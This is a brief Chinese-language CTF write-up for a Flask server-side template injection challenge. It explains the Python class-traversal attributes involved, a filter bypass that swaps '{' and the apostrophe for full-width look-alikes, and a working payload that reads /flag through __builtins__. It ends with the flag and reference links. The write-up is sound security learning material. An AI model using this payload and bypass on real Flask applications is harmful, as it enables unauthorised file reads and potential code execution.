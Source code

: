 # Easy_Web

> flask ssti注入,{和'字符绕过

## 思路分析

> \_\_class\_\_  返回类型所属的对象
> \_\_mro\_\_    返回一个包含对象所继承的基类元组,方法在解析时按照元组的顺序解析
> \_\_base\_\_   返回该对象所继承的基类
> \_\_base\_\_和\_\_mro\_\_    都是用来寻找基类的
> \_\_subclasses\_\_   每个新类都保留了子类的引用,这个方法返回一个类中仍然可用的的引用的列表
> \_\_init\_\_  类的初始化方法
> \_\_globals\_\_  对包含函数全局变量的字典的引用

> flask ssti注入,过滤了{和'字符,{可以用︷代替,'可以用＇来代替

## payload

> ︷︷().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__[＇open＇](＇/flag＇).read()︸︸


## flag

> flag{8f604f91-c36a-4413-bdaf-e786ffbfda61}

## 参考

> https://xz.aliyun.com/t/3679
> https://blog.csdn.net/qq_45774670/article/details/110223398
> http://www.fhdq.net/